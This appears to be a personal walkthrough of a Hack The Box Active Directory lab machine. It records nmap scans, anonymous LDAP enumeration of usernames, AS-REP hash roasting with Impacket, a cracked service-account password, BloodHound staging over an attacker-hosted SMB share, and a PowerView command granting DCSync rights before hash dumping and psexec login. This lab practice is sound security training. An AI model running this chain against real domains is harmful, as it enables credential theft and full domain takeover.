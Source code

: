 IP: 10.10.10.161
Nmap Scans:
Top 1000
```bash
PORT    STATE SERVICE      VERSION
88/tcp  open  kerberos-sec Microsoft Windows Kerberos (server time: 2022-04-20 14:46:55Z)
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
464/tcp open  kpasswd5?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb2-security-mode: SMB: Couldn\'t find a NetBIOS name that works for the server. Sorry!
|_smb2-time: terERROR: Script execution failed (use -d to debug)

```
All Ports
```bash
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
```

smb is empty?

ldap time
See if it works
```bash
ldapsearch -h 10.10.10.161 -x
# extended LDIF
#
# LDAPv3
# base <> (default) with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# search result
search: 2
result: 32 No such object
text: 0000208D: NameErr: DSID-0310021B, problem 2001 (NO_OBJECT), data 0, best 
 match of:
	''


# numResponses: 1
```

Get the Domain Name.
```bash
ldapsearch -h 10.10.10.161 -x -s base namingcontexts
# extended LDIF
#
# LDAPv3
# base <> (default) with scope baseObject
# filter: (objectclass=*)
# requesting: namingcontexts 
#

#
dn:
namingContexts: DC=htb,DC=local
namingContexts: CN=Configuration,DC=htb,DC=local
namingContexts: CN=Schema,CN=Configuration,DC=htb,DC=local
namingContexts: DC=DomainDnsZones,DC=htb,DC=local
namingContexts: DC=ForestDnsZones,DC=htb,DC=local

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
```

ldapsearch -h 10.10.10.161 -x -b "DC=htb,DC=local" > [[ldap-anon]]
 Groups
 ```bash
cat ldap-anon.md | grep -i memberof
memberOf: CN=Guests,CN=Builtin,DC=htb,DC=local
memberOf: CN=System Managed Accounts Group,CN=Builtin,DC=htb,DC=local
memberOf: CN=Denied RODC Password Replication Group,CN=Users,DC=htb,DC=local
memberOf: CN=Users,CN=Builtin,DC=htb,DC=local
memberOf: CN=Guests,CN=Builtin,DC=htb,DC=local
memberOf: CN=Denied RODC Password Replication Group,CN=Users,DC=htb,DC=local
memberOf: CN=Exchange Install Domain Servers,CN=Microsoft Exchange System Obje
memberOf: CN=Managed Availability Servers,OU=Microsoft Exchange Security Group
memberOf: CN=Exchange Trusted Subsystem,OU=Microsoft Exchange Security Groups,
memberOf: CN=Exchange Servers,OU=Microsoft Exchange Security Groups,DC=htb,DC=
memberOf: CN=Windows Authorization Access Group,CN=Builtin,DC=htb,DC=local
memberOf: CN=Pre-Windows 2000 Compatible Access,CN=Builtin,DC=htb,DC=local
memberOf: CN=Pre-Windows 2000 Compatible Access,CN=Builtin,DC=htb,DC=local
memberOf: CN=Users,CN=Builtin,DC=htb,DC=local
memberOf: CN=Users,CN=Builtin,DC=htb,DC=local
memberOf: CN=IIS_IUSRS,CN=Builtin,DC=htb,DC=local
memberOf: CN=Exchange Servers,OU=Microsoft Exchange Security Groups,DC=htb,DC=
memberOf: CN=Managed Availability Servers,OU=Microsoft Exchange Security Group
memberOf: CN=Windows Authorization Access Group,CN=Builtin,DC=htb,DC=local
memberOf: CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Group
```

Usersnames
[[personObject]]
```bash
ldapsearch -h 10.10.10.161 -x -b "DC=htb,DC=local" '(objectClass=Person)' sAMAccountName | grep sAMAccountName | awk '{print $2}'
requesting:
sebastien
lucinda
andy
mark
svc-alfresco
```
Create own password list cause rockyou is too good

magic
```bash
hashcat --force --stdout passwords.txt -r /usr/share/hashcat/rules/best64.rule -r /usr/share/hashcat/rules/toggles1.rule |sort -u | awk 'length($0) > 7'
```

Impacket time
SIDENOTE:
	GetNPUsers is just kerberoasting tl;dr windows sends hash for some dumb reason and now we have it
	SPNs use kerberos for authentication.
Use GetNPUsers and get kerberos hash crack with hashcat
password is s3rvice

use creds for smb (svc-alfresco:s3rvice)
```
	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
```

Bloodhound time.

but first we need to put bloodhound on the box.
 smb server
 ```bash
 ./smbserver.py Name $(pwd) -smb2support -user kali -password kali
 ```

need to make the correct object on the box
```powershell
$pass = convertto-securestring 'kali' -AsPlainText -Force
$cred - New-Object System.Management.Automation.PSCredential('kali',$pass)
New-PSDrive - Name kali -PSProvider FileSystem -Credential $cred -Root \\10.10.14.23\Name
```

Its a graph
lets make our own user cause we can
add user to "Exchange Windows Permissions" with net group

PowerView time.
Do the object thing again
```powershell
$pass = convertto-securestring 'kali' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('HTB\kali',$pass)
Add-DomainObjectAcl -Credential $cred -TargetIdentity htb.local -Rights DCSync
```
dump sam
the login with psexec as admin with the hash